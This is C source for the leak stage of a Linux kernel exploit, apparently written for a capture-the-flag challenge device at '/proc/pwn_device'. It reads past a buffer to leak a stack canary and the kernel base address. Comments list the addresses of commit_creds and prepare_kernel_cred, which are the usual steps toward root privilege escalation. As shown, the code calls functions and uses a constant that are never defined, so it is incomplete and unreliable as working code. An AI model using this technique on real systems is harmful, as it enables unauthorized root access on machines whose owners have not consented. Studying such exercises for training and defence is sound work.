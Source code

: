 ```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <stdint.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/stat.h>

#define DEVICE_NAME "/proc/pwn_device"
#define BUFFER_ADDR 0x11000
#define BUFFER_SIZE 0x6000

int control_read(uint64_t* buffer, unsigned int length)
{
    int fd = open(DEVICE_NAME, O_RDWR);
    if (fd < 0)
    {
        printf("read: open failed\n");
        return -1;
    }
    read(fd, (char*)buffer, length);
    return 0;
}

int main(void)
{
    
    save_state();
    uint64_t* buffer;
    buffer = mmap(BUFFER_ADDR, BUFFER_SIZE, 7, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0); //control size with mmap
    
    control_ioctl(GET_USERLAND_OFFSET, buffer); //check size
    printf("%s\n", (char*)buffer);
    memset(buffer, 0, BUFFER_SIZE);
    
    // ffffffff81000000 T _text
    // ffffffff81e010a1 T _etext
    // ffffffff81c00a2f T swapgs_restore_regs_and_return_to_usermode
    // 0xffffffff81c00b39
    // ffffffff81087e80 T commit_creds
    // ffffffff810881c0 T prepare_kernel_cred


    unsigned int read_length = 8 * 20;
    control_read(buffer, read_length);
    int i;
    for(i = 0; i < 20; i++)
    {
        printf("%llx\n", buffer[i]);
    }

    uint64_t canary = buffer[16];
    uint64_t kernel_base = buffer[18] - 0x23e347;
    memset(buffer, 0, BUFFER_SIZE);
    printf("canary: 0x%llx\n", canary);
    printf("kernel base: 0x%llx\n", kernel_base);
    return 0;
}
```
